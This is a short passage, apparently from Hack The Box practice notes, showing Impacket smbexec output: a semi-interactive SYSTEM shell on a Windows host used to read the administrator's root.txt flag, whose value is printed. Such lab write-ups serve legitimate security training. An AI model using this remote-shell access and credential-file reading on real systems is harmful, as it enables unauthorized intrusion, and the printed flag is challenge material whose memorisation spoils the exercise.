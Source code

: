 ```
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>cd C:\Users
[-] You can't CD under SMBEXEC. Use full paths.
C:\Windows\system32>type C:\Users
Access is denied.

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
635845d57909d940f5b287ded9ab4457

C:\Windows\system32>
```



[[Practice (HTB)]]